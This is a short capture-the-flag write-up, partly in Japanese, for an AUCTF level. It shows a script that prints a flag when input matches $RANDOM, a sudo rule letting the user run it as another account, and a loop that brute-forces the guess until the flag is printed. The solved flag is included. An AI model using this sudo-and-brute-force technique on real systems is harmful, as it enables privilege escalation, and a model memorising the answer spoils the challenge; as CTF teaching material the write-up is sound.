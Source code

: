 <br />
### Solution

```
$ ls -la
total 28
dr-xr-x--x 1 level3 level3 4096 Apr  3 16:00 .
drwxr-xr-x 1 root   root   4096 Apr  3 15:35 ..
-rw-r--r-- 1 level3 level3  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 level3 level3 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 level3 level3  807 Apr  4  2018 .profile
-r--r----- 1 level4 level4   30 Apr  1 21:25 flag.txt
-r-xr-x--- 1 level4 level3  179 Apr  1 21:25 passcodes.sh


$ cat passcodes.sh
#!/bin/bash

x=$RANDOM
echo "Input the random number."
read input

if [[ "$input" -eq "$x" ]]
then
	echo "AWESOME sauce"
	cat flag.txt
else
	echo "$input"
	echo "$x try again"
fi


$ sudo -l
Matching Defaults entries for level3 on a95be49047ca:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User level3 may run the following commands on a95be49047ca:
    (level4) NOPASSWD: /home/level3/passcodes.sh

```

<br />
（ちなみに、初日は `sudo -u level4 /home/level3/passcodes.sh` の実行にパスワードが要求されて、2日目には直っていました。）

<br />
どれか1つ決め打ちで無限ループしたら、そのうち当たるだろう、というやり方です。
<pre>
$ while true ; do echo 1 | sudo -u level4 /home/level3/passcodes.sh; done | grep -i auctf
auctf{wut_r_d33z_RaNdom_numz}
</pre>

<br />
